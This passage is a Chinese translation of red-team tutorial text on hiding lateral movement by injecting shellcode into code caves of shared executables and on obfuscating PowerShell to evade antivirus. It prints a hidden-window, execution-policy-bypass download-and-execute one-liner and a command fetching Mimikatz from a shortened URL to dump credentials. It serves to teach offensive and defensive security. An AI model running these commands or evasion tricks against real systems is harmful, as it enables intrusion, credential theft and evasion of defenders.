 ## 代码洞（Code Caves）
与任何红队行动一样，我们一直在寻找创造性的方式在环境中横向移动或保持持久性。通常，如果我们有凭证，我们会尝试使用 WMI 或 PSExec 在远程系统上执行 payload。有些时候，我们需要找到创造性的方式在环境中移动而不被轻易跟踪。

作为红队队员,被抓住并不是入侵行动中可能发生的最糟糕的事情。最糟糕的事情是当我们被抓住并且蓝队发现了属于该行动的每个域、IP 和受感染的主机。蓝队人员通常很容易就能检测到 WMI、PSexec 的连接特征来判定内网有横向移动，因为它并不总是被视为正常流量。那么我们可以做些什么来隐藏我们的横向移动呢？

这是我们可以发挥创造性的地方，没有标准答案（如果某种方法有效，那对我来说就够好了）。一旦进入一个环境，我最喜欢做的事情之一就是发现公开共享和主动共享/执行的文件。我们可以尝试将宏添加到 Office 文件中，但这似乎太明显了。一种通常不太容易被检测出并且成功率高的攻击是将我们的自定义恶意软件嵌入可执行二进制文件中。这可以是像 putty 这样的共享二进制文件，一个内网环境中常见的胖客户端应用程序，甚至是数据库工具。

虽然不再维护，但执行这些攻击最简单的工具之一是 [Backdoor factory](https://github.com/secretsquirrel/the-backdoor-factory)。Backdoor factory 会在真实程序中查找代码洞或空块，攻击者可以在其中注入自己的恶意 shellcode。上本书中涵盖了这一点，其思路保持不变。

可以在此处找到这两个资源：
* https://haiderm.com/fully-undetectable-backdooring-pe-file/#Code_Caves 
* https://www.abatchy.com/2017/05/introduction-to-manual-backdooring_24.html
> 译者注:<br>经验证，上两个链接都已经404了。但是译者还是顽强的找到了不同网址同内容的替代资源。<br>对于第一个网址链接的文章，可以在[本地址](https://www.securitynewspaper.com/2017/11/21/fully-undetectable-backdooring-pe-files/)阅读该英文文章来查看 `Code Caves` 这一部分。<br>对于第二篇文章，几乎都404了。但是我找到了此文的出处：[Introduction-To-Manual-Backdooring](https://github.com/abatchy17/Introduction-To-Manual-Backdooring/blob/master/Introduction%20To%20Manual%20Backdooring.pdf) 这本电子书。需要的自取。

## PowerShell 混淆
PowerShell Scripts 当前的问题是，如果你将它们放到磁盘上，很多防病毒工具都会把它们检测出来。即使你将它们导入内存，查看内存的杀毒软件工具有时也会对它们发出警报。

无论如何，如果你从 Cobalt Strike、Meterpreter 或 PowerShell Empire 将它们导入内存，确保我们不会被杀毒软件检测出来是非常重要的。万一被检测出来的话，我们至少应该让应急响应团队或取证团队很难去逆向我们的攻击 payload。

我们都看过像这样的 PowerShell 命令：
```powershell
Powershell.exe -NoProfile -NonInteractive -WindowStyle Hidden -ExecutionPolicy Bypass IEX (New-Object Net.WebClient).DownloadString(‘[PowerShell URL]’); [Parameters]
```
 
这是我们可能看到的最基本的 powershell 调用指令的字符串组合，可以用于绕过执行策略，来以隐藏窗口的模式（后台运行无弹窗）自动下载和执行 powershell payload。对于蓝队，我们已经看到了很多关于这些特定参数的日志记录，比如 `-Exec Bypass`。因此，我们开始通过一些常见的 PowerShell 语法来混淆此参数：

* -ExecutionPolicy Bypass
    * -EP Bypass
    * -Exec Bypass
    * -Execution Bypass
    
感谢 Daniel Bohannon 的提醒！他提醒说：更疯狂的是，我们实际上不需要打出完整的参数字符串就能使它工作。例如，对于 `-ExecutionPolicy Bypass`，所有下列示例都可以生效:
* -ExecutionPolicy Bypass
* -ExecutionPol Bypass
* -Executio Bypass
* -Exec Bypass
* -Ex Bypass

这些技术也同样适用于 `WindowStyle` 甚至 `EncodedCommand` 参数。当然，这些技巧不足以支撑我们走得更远，我们还需要创建更多的混淆变换。首先，我们可以使用一个非常简单的示例来执行我们的远程 PowerShell 脚本（在本例中为 Mimikatz）并使用以管理员身份运行的 PowerShell 提示符来转储哈希值：
* Invoke-Expression (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2JHVdzf’); Invoke-Mimikatz -DumpCreds
> 译者注：
> 1. `WindowStyle` 和 `EncodedCommand` 是 PowerShell.exe 的选项参数。`WindowStyle` 可以改变 CMD 窗口的风格，将窗口样式设置为 Normal、Minimized、Maximized 或 Hidden。`EncodedCommand` 是接受 base-64 编码字符串版本的命令。使用此参数向 Windows PowerShell 提交需要复杂引号或大括号的命令。欲知更多参数，可以在 Windows Powershell 里面使用 `powershell -help` 命令查看。
> 2. `Invoke-Expression` 能将任何的字符串当作PowerShell脚本来执行。以下附上关于 `Invoke-Expression` 的更多参考资料：
>    - [Invoke-Expression](https://forsenergy.com/zh-cn/windowspowershellhelp/html/04b8e90a-7d28-4ab2-ad13-b0316c231c77.htm)
>    - [Invoke-Expression 帮助信息](https://blog.csdn.net/PowerShell/article/details/1857793)
